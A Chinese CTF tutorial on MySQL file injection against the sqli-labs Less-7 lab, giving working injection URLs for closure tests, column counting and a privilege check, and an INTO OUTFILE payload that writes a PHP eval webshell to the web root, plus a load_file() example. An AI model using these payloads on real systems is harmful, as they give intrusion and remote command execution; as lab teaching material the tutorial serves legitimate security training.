 <!--
author: maomao
title: 2.6sql注入之文件注入
category: web安全入门
status: publish
summary: 文件读取注入指的是我们可以利用sql的函数来进去下载和上传文件。我们可以利用此来上传木马获取shell，或者来下载系统文件。
-->


##一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。


##二、简介

文件读取注入指的是我们可以利用sql的函数来进去下载和上传文件。我们可以利用此来上传木马获取shell，或者来下载系统文件。

##三、函数介绍

sql文件注入主要采用下面的两个函数，同时能否上传或者下载成功还存在诸多的限制。

###读取文件：load_file(）

>1. 当前权限对该文件可读
>2. 文件在该服务器上
>3. 路径完整
>4. 文件大小小于max_allowed_packet
>5. 当前数据库用户有FILE权限
>6. secure_file_priv的值为空，如果值为某目录，那么就只能对该目录的文件进行操作

###上传文件：

>1. 目标目录要有可写权限
>2. 当前数据库用户要有FILE权限
>3. 目标文件不能已存在
>4. secure_file_priv的值为空
>5. 路径完整

##四、题目链接

>http://39.98.88.18:49005/Less-7/index.php?id=1

##五、and 判断闭合

在前面几关中，我们在语句后面添加一个单引号，语句报错。同时，显示出报错语句，我们可以根据来进行闭合。然后注入。

但是在下面的关卡中，将不会像前面几关那样爆出sql语句的错误，而是给了我们一个提示，告诉我们sql语句错误。

![](img/2.6/1.png)

加单引号后报错，虽然没有给出sql错误语句。但是可以判断的是，后台已经将sql语句带入了数据库中执行。

因此可以判定存在注入。

接下来我们尝试闭合，我们使用的闭合语句如下：

> ' and 1=1 --+

> ' and 1=2 --+

or　运算符只有当两边同是为真的时候才为真。为真则显示结果，为假则不显示。看如下链接

>http://39.98.88.18:49005/Less-7/index.php?id=1' and  1=1 --+

我们将其带入数据中执行一下：

![](img/2.6/2.png)

可以看出1=1为永真，如果我们使用　' and 1=1测试的时候，返回了正常页面，则可以说明两边为真。即前面闭合成功。此时，我们再用１＝２，提示错误。则说明闭合成功


##六、实战

1、闭合

用上面的方法进行判断，发现其是可以用’))来闭合。

>http://39.98.88.18:49005/Less-7/index.php?id=1')) and 1=1--+

![](img/2.6/3.png)

>http://39.98.88.18:49005/Less-7/index.php?id=1')) and 1=2--+

![](img/2.6/4.png)
2.判断列数

>http://39.98.88.18:49005/Less-7/index.php?id=1')) order by 4--+

![](img/2.6/5.png)


３.判断权限

有网页的文件可以得知，我们需要outfile..所以我们尝试文件注入来进行上传文件。首先先判读一下权限。

>http://39.98.88.18:49005/Less-7/index.php?id=1')) and (select count(*) from mysql.user)>--+

如果返回成功，则表示是系统的最高权限，即root权限，否则不是，即一般不可对其进行文件注入

![](img/2.6/7.png)

接下来需要进行网站绝对路径的判断，在此不过多叙述：

>https://blog.csdn.net/jihaichen/article/details/80211769


4.上传木马

>http://39.98.88.18:49005/Less-7/index.php?id=1')) union select 1,2,'<?php @eval($_POST["cmd"]);?>' into outfile '/var/www/html/1.php'--+

执行完上面的url以后，页面报错。我们看一下我们的木马是否上传成功。在浏览器访问我们的木马地址

>http://39.98.88.18:49005/1.php

![](img/2.6/8.png)

发现此时上传成功，并且成功解析。

５．使用菜刀连接

由于本人使用的是kali。weevely 生成的木马实在太长，试了好多次都没有上传成功。所以我就复制了一个上去

![](img/2.6/10.png)

可以看出连接成功

关于菜刀的连接一句话还望大佬们自己尝试。有问题可以随时在星球留言。

6.load_file() 函数在此不过多叙述，使用方法与into outfile 类似.例子如下：

>http://127.0.0.1/index.php?age=-1 union select 1,2,3,4,load_file(‘H:/wamp64/www/233.php’)

日后遇到比较好的靶场，再给大家详细讲解。

##七、课后练习

CTF赛题地址：https://t.zsxq.com/r7mMV7a

关于CTF赛题有任何的问题请在星球或者微信群里面＠江江河畔砍柴人。我将会在第一时间解答。

##八、小结

CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接

答疑、辅导请加入玄魂工作室--安全圈，一起成长探讨更私密内容。微信扫码了解详情：

![](img/2.6/00.jpeg)

及时获取更多消息，请关注微信订阅号

![](img/2.6/0.jpg)
